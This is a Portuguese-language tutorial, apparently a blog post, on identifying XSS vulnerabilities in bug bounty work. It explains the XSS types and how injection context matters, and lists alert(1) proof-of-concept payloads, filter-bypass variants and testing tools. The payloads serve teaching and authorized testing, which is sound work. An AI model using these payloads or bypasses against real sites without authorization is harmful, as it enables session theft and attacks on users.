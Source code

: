 ```yaml
---
title: "Como identificar uma vulnerabilidade de XSS (Cross-Site Scripting)"
date: 2025-06-10
categories: ["xss", "bug bounty", "seguranca web", "hacking"]
---
```


# Como identificar uma vulnerabilidade de XSS (Cross-Site Scripting)

**XSS (Cross-Site Scripting)** é uma das vulnerabilidades mais comuns e mais exploradas da web. E também uma das primeiras que a galera costuma encontrar em Bug Bounty.  
Se liga nesse guia completo pra identificar XSS na prática — mesmo que você esteja começando agora.

---

## 🧠 O que é um XSS?

É quando um atacante consegue **injetar código JavaScript malicioso** dentro de uma página, que será executado no navegador da vítima.  
Com isso, dá pra:

- Roubar cookies e tokens
- Redirecionar usuários pra phishing
- Capturar dados de formulários
- Explorar outras falhas do app pelo navegador

---

## 🧪 Tipos de XSS

1. **Refletido**  
   O payload é refletido direto na resposta da requisição (ex: na URL).
2. **Armazenado**  
   O payload fica salvo no banco de dados e aparece para outros usuários.
3. **DOM-Based**  
   A injeção acontece no lado do cliente, quando o JavaScript da página manipula valores da URL, `document.location`, `innerHTML`, etc.

---

## 🔍 Como identificar um XSS

### Passo 1 – Onde seu input aparece?

Testa campos como:

- Formulários de busca
- Comentários
- Parâmetros da URL (ex: `?q=teste`)
- Inputs escondidos ou debug tools no front
- Qualquer coisa que reflita dados no HTML

Use valores como:

```
xss123
<script>1</script>
"><img src=x onerror=alert(1)>
```

Procure onde isso aparece na resposta: no corpo da página, em atributos, no JavaScript, etc.

---

### Passo 2 – Qual o contexto?

O contexto onde o valor aparece muda **como** você deve injetar. Exemplos:

| Contexto | Exemplo na resposta | Payload básico |
|---------|---------------------|----------------|
| HTML    | `<div>xss123</div>` | `<script>alert(1)</script>` |
| Atributo| `<input value="xss123">` | `" onfocus=alert(1) autofocus="` |
| JS      | `var data = "xss123";` | `";alert(1);//` |
| URL     | `<a href="?msg=xss123">` | `javascript:alert(1)` |

---

### Passo 3 – Teste com payloads

Comece com os mais simples:

```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
```

Se nada funcionar, tenta versões obfuscadas:

```html
<scr<script>ipt>alert(1)</scr</script>ipt>
<scr ipt>alert(1)</scr ipt>
<svg><script>alert(1)</script></svg>
```

---

## 🛠 Ferramentas úteis

- **Burp Suite** – Intercepta e altera requisições
- **XSStrike** – Fuzzer inteligente para XSS
- **Google Chrome DevTools** – Pra ver o DOM renderizado
- **xsshunter.com** – Pra detectar execuções automáticas (armazenado ou DOM-based)

---

## 🎯 Exemplos reais de XSS

### Refletido:
```
https://site.com/search?q=<script>alert(1)</script>
```

### Armazenado:
Campo de comentário:
```html
Ótimo post! <script>alert('XSS')</script>
```
Se o admin abrir a página de comentários e o JS rodar → bingo.

### DOM-Based:
URL:
```
https://site.com/#<img src=x onerror=alert(1)>
```
Se o JS do site fizer algo como:
```js
document.body.innerHTML = location.hash;
```
➡ Isso é perigoso.

---

## 🧩 Bônus: bypasses comuns

Às vezes o site bloqueia `<script>`. Tenta alternativas:

```html
<svg onload=alert(1)>
<img src=x onerror=alert(1)>
<details open ontoggle=alert(1)>
<input onfocus=alert(1) autofocus>
<iframe srcdoc="<script>alert(1)</script>">
```

E em JS:
```js
'";alert(1);// 
</script><script>alert(1)</script>
```

---

## 🛡 Como saber se é de verdade?

Um XSS só é válido quando **o código malicioso é executado de fato**, e:

- Afeta outro usuário (armazenado)
- Pode ser explorado via link (refletido)
- Roda no navegador sem interação do usuário (auto-execução)

Não basta "ver o payload na tela" — tem que rodar.

---

## 📌 Checklist rápido pra identificar um XSS

- [ ] O input é refletido na resposta?
- [ ] Qual o contexto HTML? (tag, atributo, JS, etc.)
- [ ] O payload executa código?
- [ ] O filtro é fraco? Dá pra bypassar?
- [ ] Outro usuário seria afetado?

---

## 🧠 Conclusão

XSS parece simples, mas é uma das falhas mais versáteis e perigosas.  
Com prática, você aprende a **ler o DOM com olhos de atacante** e a escapar de filtros comuns.

Testa em labs, vê como os apps tratam entrada, e abusa do DevTools pra entender como tudo é construído.

Se você achou esse guia útil, compartilha.  
Se quiser um desafio XSS real, posso te mandar um lab ou quiz!

---

> “XSS é a arte de falar JavaScript com sotaque de atacante.”  
> — lxr0x64
